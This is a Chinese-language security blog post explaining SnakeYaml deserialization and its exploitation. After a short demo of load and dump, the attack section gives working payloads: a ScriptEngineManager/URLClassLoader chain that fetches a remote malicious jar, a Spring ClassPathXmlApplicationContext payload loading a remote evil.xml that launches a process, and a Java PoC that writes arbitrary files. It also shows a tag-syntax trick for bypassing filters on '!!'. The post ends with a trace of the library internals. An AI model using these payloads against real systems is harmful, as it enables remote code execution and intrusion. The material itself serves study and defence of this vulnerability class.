

# 0x01 What Is SnakeYaml

SnakeYaml是一个完整的YAML1.1规范Processor，用于解析YAML，序列化以及反序列化，支持UTF-8/UTF-16，支持Java对象的序列化/反序列化，支持所有YAML定义的类型。

# 0x02 Best Practice

```xml
<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.27</version>
</dependency>
```

两个方法：

- Yaml.load()：入参是一个字符串或者一个文件，返回一个Java对象
- Yaml.dump()：将一个对象转化为yaml文件形式

```java
package com.snake.demo;

public class User {
    private String name;
    public int age;

    public User(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public User() {
        System.out.println("Non Arg Constructor");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("getAge");
        return age;
    }

    public void setAge(int age) {
        System.out.println("setAge");
        this.age = age;
    }

    @Override
    public String toString() {
        return "I am " + name + ", " + age + " years old";
    }
}
```

## dump

```java
User user = new User("taco", 18);
Yaml yaml = new Yaml();
System.out.println(yaml.dump(user));
```

> 打印结果:
>
> getName
>
> !!com.snake.demo.User {age: 18, name: taco}

!!用于强制类型转换，与fastjson中@type字段类似

`dump()`还调用了非public成员的`getter`

## load

```java
String s = "!!com.snake.demo.User {age: 18, name: taco}";
Yaml yaml = new Yaml();
User user = yaml.load(s);
System.out.println(user);
```

> Non Arg Constructor
>
> setName
>
> I am taco, 18 years old

`load()`调用了无参构造器和非public成员的`setter`

实际上不仅无参构造器能够调用，还能指定调用有参构造器，只要传参类型为有参构造器的参数类型即可。

```java
String s = "!!com.snake.demo.User [\"taco\", 18]";
Yaml yaml = new Yaml();
User user = yaml.load(s);
System.out.println(user);
```

> Arg Constructor Called
>
> I am taco, 18 years old

此时就不会调用`setter`方法了

> 若类属性是public修饰，不会调用对应的setter方法，而是通过反射来set

# 0x03 Way To Attack

yaml反序列化时通过`!!` + 全类名指定反序列化的类，和fastjson一样都会调用setter，不过对于public修饰的成员不会调用其setter，除此之外，snakeyaml反序列化时还能调用该类的构造函数（fastjson是通过ASM生成的）。

## ScriptEngineManager

构造`ScriptEngineManager`payload，利用SPI机制通过`URLClassLoader`远程加载恶意字节码文件。

Github上面的EXP：https://github.com/artsploit/yaml-payload

工具的工程classpath下存在`META-INF/services`文件夹

`javax.script.ScriptEngineFactory`

> artsploit.AwesomeScriptEngineFactory

打成jar包

> javac src/artsploit/AwesomeScriptEngineFactory.java
>
> jar -cvf yaml-payload.jar -C src/ .

将生成yaml-payload.jar包放在web服务上

`python -m http.server 9999`

> !!javax.script.ScriptEngineManager [
>  !!java.net.URLClassLoader [[
>   !!java.net.URL ["http://127.0.0.1:9999/yaml-payload.jar"]
>  ]]
> ]


下面来看一下触发流程

`javax.script.ScriptEngineManager`


`ScriptEngineManager`的无参构造器调用了init()，进行初始化设置后调用`initEngines()`，用于初始化脚本引擎。

接着到`getServiceLoader`，用于获取`ServiceLoader`迭代器


到了熟悉的`ServiceLoader.load()`返回一个`ServiceLoader<T>`，根据这个可以获取一个迭代器，接下来还是熟悉的迭代遍历。


`next() => nextService()`会加载接口实现类并实例化，在SPI那节已经介绍过了。

## SpringFramework远程加载配置

Spring当中有两个类的构造函数远程加载配置，可以构成RCE

> org.springframework.context.support.ClassPathXmlApplicationContext
> org.springframework.context.support.FileSystemXmlApplicationContext

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>calc</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

> !!org.springframework.context.support.ClassPathXmlApplicationContext [\"http://127.0.0.1:8888/evil.xml\"]

既然能触发getter，那么fastjson的大部分payload也可以用。

## 写文件加载本地jar

> !!sun.rmi.server.MarshalOutputStream [!!java.util.zip.InflaterOutputStream [!!java.io.FileOutputStream [!!java.io.File ["filePath"],false],!!java.util.zip.Inflater  { input: !!binary base64 },length]]

filepath是写入路径，base64str为经过zlib压缩过后的文件内容,length为文件大小

和fastjson一样，对于byte数组会自动进行base64解码(snakeyaml中为binary)

```java
import com.sun.org.apache.xml.internal.security.utils.JavaUtils;
import org.yaml.snakeyaml.Yaml;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.util.Base64;
import java.util.zip.Deflater;

public class SnakeYamlFilePOC {

    public static void main(String[] args) throws IOException {
        String poc = createPoc("E:/flag.txt", "E:/a.txt");
        System.out.println(poc);
//        Yaml yaml = new Yaml();
//        yaml.load(poc);
    }
    public static String createPoc(String src, String path) throws IOException {
        byte[] file = JavaUtils.getBytesFromFile(src);
        int length = file.length;
        byte[] compressed = compress(file);
        String b64 = Base64.getEncoder().encodeToString(compressed);
        String payload = "!!sun.rmi.server.MarshalOutputStream " +
                "[!!java.util.zip.InflaterOutputStream [" +
                    "!!java.io.FileOutputStream [" +
                        "!!java.io.File [\"" + path + "\"],false]," +
                        "!!java.util.zip.Inflater  { input: !!binary " + b64 + " }, " + length +
                        "]]";
        return payload;
    }

    public static byte[] compress(byte[] input) throws IOException {
        Deflater deflater = new Deflater();
        deflater.setInput(input);
        deflater.finish();

        ByteArrayOutputStream outputStream = new ByteArrayOutputStream();

        byte[] buffer = new byte[1024];
        while (!deflater.finished()) {
            int compressedSize = deflater.deflate(buffer);
            outputStream.write(buffer, 0, compressedSize);
        }

        outputStream.close();
        return outputStream.toByteArray();
    }
}
```

既然可以写文件，那就把jar写入目标环境，然后再通过URLClassloader本地加载

```java
Yaml yaml = new Yaml();
String poc = createPoc("./yaml-payload.jar", "E:/evil.jar");
yaml.load(poc);
String s = "!!javax.script.ScriptEngineManager [\n" +
    "!!java.net.URLClassLoader [[\n" +
    "!!java.net.URL [\"file:///E:/evil.jar\"]\n" +
    "]]\n" +
    "]";
yaml.load(s);
```

# 0x04 Yaml#load()

```java
public <T> T load(String yaml) {
	return (T) loadFromReader(new StreamReader(yaml), Object.class);
}
```

payload存储于StreamReader的stream字段


回到`loadFromReader()`，创建了一个Composer对象，并封装到`constructor`中

```java
private Object loadFromReader(StreamReader sreader, Class<?> type) {
    Composer composer = new Composer(new ParserImpl(sreader), resolver, loadingConfig);
    constructor.setComposer(composer);
    return constructor.getSingleData(type);
}
```

跟进`getSingleData`


`getSingleNode()`将poc改造为如下：

> <org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:javax.script.ScriptEngineManager, value=[<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:java.net.URLClassLoader, value=[<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:seq, value=[<org.yaml.snakeyaml.nodes.SequenceNode (tag=tag:yaml.org,2002:java.net.URL, value=[<org.yaml.snakeyaml.nodes.ScalarNode (tag=tag:yaml.org,2002:str, value=http://127.0.0.1:9999/yaml-payload.jar)>])>])>])>])>

若过滤了`!!`，可利用此tag规则进行绕过

> !<tag:yaml.org,2002:javax.script.ScriptEngineManager> 
> [!<tag:yaml.org,2002:java.net.URLClassLoader> [[!<tag:yaml.org,2002:java.net.URL> 
> ["http://ip/yaml-payload.jar"]]]]

接着调用`constructDocument()`对上面poc进行处理


跟进`constructObject()` => `constructObjectNoCheck()`



node放入`recursiveObjects`，进入`constructor.construct(node)`


遍历节点，调用`constructObject()`又循环回去了

> constructObjectNoCheck()->
>
> BaseConstructor#construct()->
>
> Contructor#construct()->
>
> 递归Contructor#constructObject()

上面的POC有5个node，所以循环5次。

先后进行了URL、URLClassLoader、ScriptEngineManager的实例化

注意这里实例化是有传参数(argumentList)的，把前一个类的实例化对象当作下个类构造器的参数。

最后进入ScriptEngineManager的无参构造器，连接上了上文的SPI机制。


# Article To Learn

[跳跳糖社区-SnakeYaml反序列化及不出网利用](https://mp.weixin.qq.com/s?__biz=MzkxNDMxMTQyMg==&mid=2247496898&idx=1&sn=9df9a236a3c437522bdf125cf92c6e24&chksm=c172e553f6056c4592696a15d5270e30386a229ca35d8eb1cf588498c95d78b28f2766975234&scene=27&key=7917b196593e1041903cc963f4d8e8dd309fc34822ec523c96ef6852b6eb00243ae09c3a475f21000c466a1481f5d9ef88661e5ccd3eae00b654271eecd790081cf9cb2b874e0566a9b1bf83ab3e3a9dffbce029a9983bd1e617a34873e1a5cf0d90ff63073904c1c64a7ab0832fd5396612ac69385a93896810c27b3466f6ca&ascene=0&uin=MzM0MTE3MTk2MQ%3D%3D&devicetype=Windows+10+x64&version=6308011a&lang=zh_CN&exportkey=n_ChQIAhIQk1l7Og6o32ldfRBgt0m%2F7xLgAQIE97dBBAEAAAAAAFyoNDyY7FgAAAAOpnltbLcz9gKNyK89dVj0STE6v0lILRu1tKDn0ZDKVMzBwrLXZCB%2BmUzHXSOZsIYr0w0A%2FcuvTqwms4Rt%2Fkjpf8zHxxTi8IwvjYn%2FDZ9Q33Hc5vfX2hilkR53helcExsLrLyslL%2FWBsef9XI%2F6wZMWmG6oy8JJGplsmLrW%2BxqvmnB4f5wILv176CzXoS3esuvsQ%2BhfcDKd%2FEfu5bUKYhs0ZoGh1vCyZD6VtP9NEg2tTCVHV3tJAqerIo%2BgJoEHIoL7rOFzs%2Fq0qic&acctmode=0&pass_ticket=Q7%2FiUlx9i6XS%2FNSi17wpXoqBYZHAHgY0basv8D4BZIN%2BCoAkTfFeOqqNDBcbXW05phWaLHgqOHGN8cecKlsdgw%3D%3D&wx_header=1&fontgear=2)